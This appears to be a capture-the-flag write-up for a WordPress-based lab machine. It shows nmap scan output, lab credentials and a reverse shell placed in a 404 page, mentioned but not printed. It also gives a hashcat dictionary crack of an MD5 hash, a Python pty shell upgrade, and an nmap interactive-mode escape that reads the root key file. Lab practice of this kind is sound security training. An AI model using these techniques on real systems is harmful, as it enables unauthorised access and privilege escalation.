

# Scannings

## Target 
```
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT    STATE  SERVICE  REASON         VERSION
22/tcp  closed ssh      reset ttl 63
80/tcp  open   http     syn-ack ttl 63 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http syn-ack ttl 63 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
```

Web server at ports 80 & 443

./img/wp_404.png

404 page shows us that this is a WP blog having a login page at
*http://10.10.252.56/wp-login.php*

Brute Force?

## Other hosts
Nmap scan report for **10.10.152.90**
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http          syn-ack ttl 63 WebSockify Python/3.6.9
111/tcp  open  rpcbind       syn-ack ttl 63 2-4 (RPC #100000)
3389/tcp open  ms-wbt-server syn-ack ttl 63 xrdp
5901/tcp open  vnc           syn-ack ttl 63 VNC (protocol 3.8)
6001/tcp open  X11           syn-ack ttl 63 (access denied)
8000/tcp open  http-alt      syn-ack ttl 62 ecstatic-3.3.2

Nmap scan report for **10.10.152.95**
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for **10.10.152.203**
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5901/tcp open  vnc           syn-ack ttl 63 VNC (protocol 3.8)
6001/tcp open  X11           syn-ack ttl 63 (access denied)
8000/tcp open  http-alt      syn-ack ttl 62 ecstatic-3.3.2


# First flag
/robots.txt reveals the first flag, which is accessible under /flag-1-of-3.txt




# Second flag

`elliot:ER28-0652`

As elliot is administrator, we can generate a new password for the mich05654 user:
`mich05654:ayckn(GK9uXur3#Vm0yym)yr`

After gaining access to the machine by adding a reverse shell to the wordpress 404 page, we see that the next key is in directory /home/robot.
However, we do not have access to the file, but to a file containing a user and password (in md5):
`robot:c3fcd3d76192e4007dfb496cca67e13b`

Cracking the hash with HashCat

`> hashcat -a 0 -m 0 obtained_hash.txt /usr/share/wordlists/rockyou.txt`
`> abcdefghijklmnopqrstuvwxyz`

We then use python to obtain a terminal to login to the robot user
`echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py`
`python /tmp/asdf.py`

# Third flag

- Brainstorm
- - X SSH into other machines with obtained credentials 
- - X Check HTTP servers of other hosts
- - [->] Obtain root on original machine
- - X Scan ALL ports of other hosts
- - X Find vuln for ecstatic/CyberChef

Enumerating the target machine we find: 


This seems to be an old version of nmap, not providing a scripting engine.
However, the interactive mode is available.
We can run:  
```
$ nmap --interactive
$ ! ls /root/
$ ! cat /root/key-3-of-3.txt
```